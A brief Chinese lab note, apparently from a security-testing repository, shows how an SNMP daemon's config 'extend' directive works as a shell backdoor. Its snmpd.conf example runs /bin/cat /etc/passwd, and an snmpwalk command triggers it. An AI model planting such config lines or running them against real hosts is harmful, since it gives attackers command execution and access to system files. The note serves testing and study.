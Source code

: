 ## 运维安全 - net-snmpd shell 后门

测试镜像

* src/net-snmp/5.7.2

参考文章

* [SNMP Config File Injection to Shell](https://digi.ninja/blog/snmp_to_shell.php)

配置

```
# snmpd.conf
rocommunity testing
extend test /bin/cat /etc/passwd
```

触发

```
snmpwalk -v 2c -c testing 127.0.0.1 nsExtendOutput1
```


